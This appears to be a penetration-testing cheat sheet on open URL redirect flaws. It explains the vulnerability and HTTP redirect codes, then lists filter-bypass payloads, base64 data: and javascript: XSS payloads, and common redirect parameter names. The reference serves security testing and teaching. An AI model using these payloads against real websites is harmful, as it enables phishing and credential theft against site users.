 # Open URL Redirection

> Un-validated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials. Because the server name in the modified link is identical to the original site, phishing attempts may have a more trustworthy appearance. Un-validated redirect and forward attacks can also be used to maliciously craft a URL that would pass the application’s access control check and then forward the attacker to privileged functions that they would normally not be able to access.

## Summary

* [Labs](#labs)
* [Exploitation](#exploitation)
  * [HTTP Redirection Status Code](#http-redirection-status-code)
  * [Fuzzing](#fuzzing)
  * [Filter Bypass](#filter-bypass)
  * [Common injection parameters](#common-injection-parameters)
* [References](#references)


## Labs

* [Root Me - HTTP - Open redirect](https://www.root-me.org/fr/Challenges/Web-Serveur/HTTP-Open-redirect)
* [PortSwigger - DOM-based open redirection](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection)


## Exploitation

An open redirect vulnerability occurs when a web application or server uses unvalidated, user-supplied input to redirect users to other sites. This can allow an attacker to craft a link to the vulnerable site which redirects to a malicious site of their choosing.

Attackers can leverage this vulnerability in phishing campaigns, session theft, or forcing a user to perform an action without their consent.

Consider this example:
Your web application has a feature that allows users to click on a link and be automatically redirected to a saved preferred homepage. This might be implemented like so:

```ps1
https://example.com/redirect?url=https://userpreferredsite.com
```

An attacker could exploit an open redirect here by replacing the `userpreferredsite.com` with a link to a malicious website. They could then distribute this link in a phishing email or on another website. When users click the link, they're taken to the malicious website.


## HTTP Redirection Status Code

HTTP Redirection status codes, those starting with 3, indicate that the client must take additional action to complete the request. Here are some of the most common ones:

- [300 Multiple Choices](https://httpstatuses.com/300) - This indicates that the request has more than one possible response. The client should choose one of them.
- [301 Moved Permanently](https://httpstatuses.com/301) - This means that the resource requested has been permanently moved to the URL given by the Location headers. All future requests should use the new URI.
- [302 Found](https://httpstatuses.com/302) - This response code means that the resource requested has been temporarily moved to the URL given by the Location headers. Unlike 301, it does not mean that the resource has been permanently moved, just that it is temporarily located somewhere else.
- [303 See Other](https://httpstatuses.com/303) - The server sends this response to direct the client to get the requested resource at another URI with a GET request.
- [304 Not Modified](https://httpstatuses.com/304) - This is used for caching purposes. It tells the client that the response has not been modified, so the client can continue to use the same cached version of the response.
- [305 Use Proxy](https://httpstatuses.com/305) -  The requested resource must be accessed through a proxy provided in the Location header. 
- [307 Temporary Redirect](https://httpstatuses.com/307) - This means that the resource requested has been temporarily moved to the URL given by the Location headers, and future requests should still use the original URI.
- [308 Permanent Redirect](https://httpstatuses.com/308) - This means the resource has been permanently moved to the URL given by the Location headers, and future requests should use the new URI. It is similar to 301 but does not allow the HTTP method to change.


## Fuzzing

Replace `www.whitelisteddomain.tld` from *Open-Redirect-payloads.txt* with a specific white listed domain in your test case

To do this simply modify the `WHITELISTEDDOMAIN` with value `www.test.com `to your test case URL.

```powershell
WHITELISTEDDOMAIN="www.test.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt
```


## Filter Bypass

Using a whitelisted domain or keyword

```powershell
www.whitelisted.com.evil.com redirect to evil.com
```

Using CRLF to bypass "javascript" blacklisted keyword

```powershell
java%0d%0ascript%0d%0a:alert(0)
```

Using "//" & "////" to bypass "http" blacklisted keyword

```powershell
//google.com
////google.com
```

Using "https:" to bypass "//" blacklisted keyword

```powershell
https:google.com
```

Using "\/\/" to bypass "//" blacklisted keyword (Browsers see \/\/ as //)

```powershell
\/\/google.com/
/\/google.com/
```

Using "%E3%80%82" to bypass "." blacklisted character

```powershell
/?redir=google。com
//google%E3%80%82com
```

Using null byte "%00" to bypass blacklist filter

```powershell
//google%00.com
```

Using parameter pollution

```powershell
?next=whitelisted.com&next=google.com
```

Using "@" character, browser will redirect to anything after the "@"

```powershell
http://www.theirsite.com@yoursite.com/
```

Creating folder as their domain

```powershell
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

Using "?" characted, browser will translate it to "/?"

```powershell
http://www.yoursite.com?http://www.theirsite.com/
http://www.yoursite.com?folder/www.folder.com
```


Host/Split Unicode Normalization
```powershell
https://evil.c℀.example.com . ---> https://evil.ca/c.example.com
http://a.com／X.b.com
```

XSS from Open URL - If it's in a JS variable

```powershell
";alert(0);//
```

XSS from data:// wrapper

```powershell
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

XSS from javascript:// wrapper

```powershell
http://www.example.com/redirect.php?url=javascript:prompt(1)
```


## Common injection parameters

```powershell
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```


## References

* [Open-Redirect-Payloads - cujanovic](https://github.com/cujanovic/Open-Redirect-Payloads)
* [Host/Split Exploitable Antipatterns in Unicode Normalization - BlackHat US 2019](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)
* [Open Redirect Vulnerability - AUGUST 15, 2018 - s0cket7](https://s0cket7.com/open-redirect-vulnerability/)
* [OWASP - Unvalidated Redirects and Forwards Cheat Sheet](https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet)
* [Pentester Land - Open Redirect Cheat Sheet](https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html)
* [You do not need to run 80 reconnaissance tools to get access to user accounts - @stefanocoding](https://gist.github.com/stefanocoding/8cdc8acf5253725992432dedb1c9c781)
